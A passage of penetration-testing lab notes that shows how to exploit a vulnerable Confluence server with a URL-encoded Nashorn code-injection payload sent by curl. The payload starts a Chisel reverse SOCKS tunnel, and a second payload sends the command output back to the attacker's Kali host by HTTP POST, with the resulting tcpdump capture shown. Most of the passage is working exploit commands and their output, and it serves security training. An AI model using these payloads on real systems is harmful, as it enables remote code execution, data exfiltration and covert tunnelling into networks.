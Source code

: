 We'll convert this into a Confluence injection payload, and send it to `CONFLUENCE01`:
```
curl http://192.168.50.63:8090/%24%7Bnew%20javax.script.ScriptEngineManager%28%29.getEngineByName%28%22nashorn%22%29.eval%28%22new%20java.lang.ProcessBuilder%28%29.command%28%27bash%27%2C%27-c%27%2C%27/tmp/chisel%20client%20192.168.118.4:8080%20R:socks%27%29.start%28%29%22%29%7D/
```

However, nothing happens. We don't see any traffic hit our Tcpdump session, and the Chisel server output doesn't show any activity
+ This indicates there may be something wrong with the way we're running the Chisel client process on `CONFLUENCE01`
+ However, we don't have direct access to the error output when running the binary. 
	+ We need to figure out a way to read the command output
+ which may be able to point us towards the problem. We should then be able to solve it

To read the command output, we can construct a command which redirects stdout and stderr output to a file, and then send the contents of that file over HTTP back to our Kali machine
+ We use the **&>** operator, which directs all streams to stdout, and write it to **/tmp/output**
+ We then run **curl** with the **--data** flag, telling it to read the file at **/tmp/output**, and POST it back to our Kali machine on port 8080
```
/tmp/chisel client <SERVER-IP>:<SERVER-PORT> R:socks &> /tmp/output; curl --data @/tmp/output http://<SERVER-IP>:<SERVER-PORT>/
```
+ We can then create an injection payload using this command string, and send it to the vulnerable Confluence instance:
```
curl http://192.168.50.63:8090/%24%7Bnew%20javax.script.ScriptEngineManager%28%29.getEngineByName%28%22nashorn%22%29.eval%28%22new%20java.lang.ProcessBuilder%28%29.command%28%27bash%27%2C%27-c%27%2C%27/tmp/chisel%20client%20192.168.118.4:8080%20R:socks%20%26%3E%20/tmp/output%20%3B%20curl%20--data%20@/tmp/output%20http://192.168.118.4:8080/%27%29.start%28%29%22%29%7D/
```

On sending this new injection, we check Tcpdump output for attempted connections:
```
...
16:30:50.915895 IP (tos 0x0, ttl 61, id 47823, offset 0, flags [DF], proto TCP (6), length 410)
    192.168.50.63.50192 > 192.168.118.4.8080: Flags [P.], cksum 0x1535 (correct), seq 1:359, ack 1, win 502, options [nop,nop,TS val 391724691 ecr 3105669986], length 358: HTTP, length: 358
        POST / HTTP/1.1
        Host: 192.168.118.4:8080
        User-Agent: curl/7.68.0
        Accept: */*
        Content-Length: 204
        Content-Type: application/x-www-form-urlencoded

        /tmp/chisel: /lib/x86_64-linux-gnu/libc.so.6: version `GLIBC_2.32' not found (required by /tmp/chisel)/tmp/chisel: /lib/x86_64-linux-gnu/libc.so.6: version `GLIBC_2.34' not found (required by /tmp/chisel) [|http]
        0x0000:  4500 019a bacf 4000 3d06 f729 c0a8 db3f  E.....@.=..)...?
        0x0010:  c0a8 2dd4 c410 1f90 d15e 1b1b 2b88 002d  ..-......^..+..-
...
```
+ We get the output that running **/tmp/chisel** produces
+ Chisel is trying to use versions 2.32 and 2.34 of **glibc**, which the `CONFLUENCE01` server does not have
+ **NOTE**: This module is being written in 2023, using Chisel version _1.8.1-0kali2 (go1.20.7)_. The Kali repos will likely contains later versions of Chisel in the future, and the exact error message that comes back from these later versions of Chisel may be different. However, the same principle applies. We have encountered an error trying to run a payload on a target system. As such, we have to find an alternative payload which will run. Finding a way around these kinds of setbacks is an important skill which can be applied to many other situations where tool incompatibilities arise

